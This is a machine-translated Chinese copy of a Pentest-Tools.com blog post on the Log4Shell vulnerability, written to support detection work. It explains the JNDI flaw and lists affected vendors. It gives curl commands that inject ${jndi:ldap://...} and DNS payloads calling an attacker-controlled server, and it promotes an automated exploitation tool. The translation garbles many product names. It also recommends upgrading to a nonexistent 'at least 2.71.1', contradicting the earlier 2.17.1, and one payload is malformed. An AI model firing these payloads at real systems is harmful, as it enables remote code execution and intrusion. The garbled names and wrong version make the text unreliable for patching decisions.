







# Log4Shell scanner:在您的网络和 web 应用程序中检测和利用 Log4j CVE-2021-44228 | Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228>

我们*几乎*到达了急需的假期……然后**日志 4 外壳**发生了。

在信息安全社区中，我们似乎不能拥有美好的事物。然而，现实是我们与复杂的系统一起工作，这些系统相互依赖的程度超过了我们任何人所能接受的程度。



当您必须处理像最新的 Log4j 漏洞([cvss v3](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)[**10.0**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228))这样的关键漏洞时，剩下要做的就是调动您最好的工具集和节省时间的步骤。最大努力！

2021 年 12 月 9 日，一场针对 [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 的持续攻击在野外被发现。在那之后，一个概念验证就发布了——让网络安全社区感到恐惧的是——我们都看到了利用这个漏洞是多么的容易。

*那么，是什么让它成为如此重大的问题呢*？让我们快速回顾一下基本原理。

## **Log4j 是什么？**

Log4j 是一个广泛使用的日志库，许多应用程序和服务都使用它，它也是几个 Java 日志框架之一。它是 Apache 日志服务的一部分，Apache 日志服务是 Apache 软件基金会的一个项目。

> Log4j 是 Java 编程语言中常用的日志库。
> 
> 记录器是一种将数据保存在电脑上的软件。它用于监控正在发生的事情，确定软件运行是否顺利，或者在出现问题时捕捉信息以帮助调试。
> 
> — Emy | eq🌈(@ entropyqueen _)[2021 年 12 月 11 日](https://twitter.com/entropyqueen_/status/1469606441195556865?ref_src=twsrc%5Etfw)



由于 Log4j 中这种漏洞的普遍使用和攻击这种漏洞的低复杂性——这也恰好具有最高的可能风险级别——最坏情况的前提被提出。

## **log 4 外壳攻击面**

根据这个[库](https://github.com/NCSC-NL/log4shell/tree/main/software)，以下组织被确认具有受 CVE-2021-44228 影响的易受攻击系统:

*   苹果

*   腾讯

*   蒸汽

*   推特

*   百度(全球最大的中文搜索引擎)

*   姐姐

*   法学博士(Jurum Doctor)

*   网易

*   云耀斑

*   亚马孙

*   特斯拉

*   阿帕奇索尔

*   阿帕奇德鲁伊

*   Apache Struts2

*   IBM Qradar SIEM

*   帕洛阿尔托全景

*   弹性搜索

*   吉德拉

*   《我的世界》

*   脉冲安全

*   UniFi

*   VMWare

*   搅拌机

*   谷歌

*   Webex

*   商务化人际关系网

## **log 4 shell 漏洞如何工作**

该漏洞的根本原因是在 Apache Log4j < = 2.14.1 中实现的 JNDI 功能中的**不正确的输入验证**。

在易受攻击的版本中，默认情况下会启用一种称为“消息查找替换”的功能，该功能允许威胁参与者从远程 LDAP 服务器加载和执行任意 Java 代码。

此外，在 JNDI 查找中支持多种协议，包括 LDAP、LDAPS、DNS 和 RMI。因此，如果攻击者可以控制日志消息，并通过输入参数之一或在 [HTTP 头](/blog/essential-http-security-headers)中注入任意代码，他们就可以在受控服务器上创建恶意 Java 类，并迫使易受攻击的服务器使用查找方法从 LDAP/LDAPS/DNS/RMI 服务器执行该 Java 类。



来源:[瑞士政府认证](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

## **易受攻击的 Log4j 版本**

**2 . 17 . 1 之前的所有** Log4j 版本都会受到影响。

风险在于，未经验证的远程攻击者可以完全危及服务器的安全，窃取机密信息、安装勒索软件或转向[内部网络](/blog/internal-network-scanning)。

## **如何检测道德黑客活动中的 log 4 shell/CVE-2021-44228**

为了**探测 CVE-2021-44228** ，你可以注入以下有效载荷:

#### **LDAP:**

**${jndi:ldap:// < LDAP *受控*服务器> /a}** 在每个参数或每个 HTTP 头中，然后检查远程记录器是否被访问。

#### **域名系统:**

**${jndi:dns://${hostName}。< DNS *控制的*服务器> }** 在每个参数或每个 HTTP 头中，然后检查远程记录器是否被访问。

您可以使用以下记录器: [CanaryTokens](https://canarytokens.org/generate) 或 [Log4shell Tester](https://log4shell.huntress.com/) 来确定您的应用程序是否容易受到 CVE-2021-44228 的攻击。

例如，如果您想要在“X-Api-Version”HTTP 头中注入有效负载，您可以使用以下请求:

```
curl <vulnerable_IP_address>:<vulnerabe_port> -H 'X-Api-Version:
${jndi:ldap://<LDAP_controlled_server>/a}
curl <vulnerable_IP_address>:<vulnerabe_port> -H 'X-Api-Version:
${jndi:dns:/${hostName}.<DNS_controlled_server>}
```

确认 CVE-2021-44228 在你的目标上是可利用的最快和最省事的方法是使用[狙击自动利用者](https://pentest-tools.com/exploit-helpers/sniper)，Pentest-Tools.com 上的自动攻击者。

该工具自动模拟现实世界的利用和攻击技术:

*   它扫描开放的端口，收集有关协议、服务类型和版本的数据

*   它对 web 服务进行指纹识别，以确定运行的 web 应用程序的类型及其背后的技术栈

*   它寻找兼容的利用

*   它检查目标是否确实易受攻击，在此阶段不提取任何数据

*   一旦获得 RCE，Sniper 自动提取所有工件(当前和本地用户，系统信息，运行进程，网络配置等。)，这将在输出报告中得到

*   它确实会清除，所以目标保持不变。

我们使用 **LDAP** 来[利用 Log4Shell 漏洞](/blog/how-we-detect-log4shell)。







这一切都发生在一分钟内——从字面上来说——与手工开发相比，这是一个巨大的收获，特别是当你在一个 pentest 中时间紧迫时(什么时候不会发生这种情况？).

由于 Sniper 不生成结果，如果您想用漏洞填充结果页面，请运行默认包含 Sniper 检测模块的[网络漏洞扫描](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)。我们使用 DNS 查询来验证漏洞是否存在。



## **如何缓解 CVE-2021-44228**

我们建议将 Log4j 库升级到**至少 2.71.1** 版本，修复该漏洞和第一个补丁发布后发现的安全问题。

然而，打补丁说起来容易做起来难，原因有很多，信息安全社区都很清楚。我们赞扬整个行业的事故响应团队和专家尽最大努力将风险和损失降至最低！

我们将继续为您提供所需的工具，帮助您在压力下尽可能出色地完成工作——无论您负责的系统是在地球上还是在太空中，我们都会为您带来最新消息！

> 你知道火星 2020 直升机任务“独创性”是由阿帕奇 Log4j 驱动的吗？
> [【https://t.co/gV0uyE1ylk】](https://t.co/gV0uyE1ylk)
> [【阿帕奇】](https://twitter.com/hashtag/Apache?src=hash&ref_src=twsrc%5Etfw) [【开源】](https://twitter.com/hashtag/OpenSource?src=hash&ref_src=twsrc%5Etfw) [【创新】](https://twitter.com/hashtag/innovation?src=hash&ref_src=twsrc%5Etfw) [【社区】](https://twitter.com/hashtag/community?src=hash&ref_src=twsrc%5Etfw) [【日志】](https://twitter.com/hashtag/logging?src=hash&ref_src=twsrc%5Etfw) [【服务】](https://twitter.com/hashtag/services?src=hash&ref_src=twsrc%5Etfw)
> [pic.twitter.com/aFX9JdquP1](https://t.co/aFX9JdquP1)
> 
> —阿帕奇—ASF(@ TheASF)[2021 年 6 月 4 日](https://twitter.com/TheASF/status/1400875147163279374?ref_src=twsrc%5Etfw)

为防御者和攻击性安全团队提供最新的漏洞指导，请将 [CISA 的建议](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)加入书签。

为防御者和攻击性安全团队提供最新的漏洞指导，请将 [CISA 的建议](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)加入书签。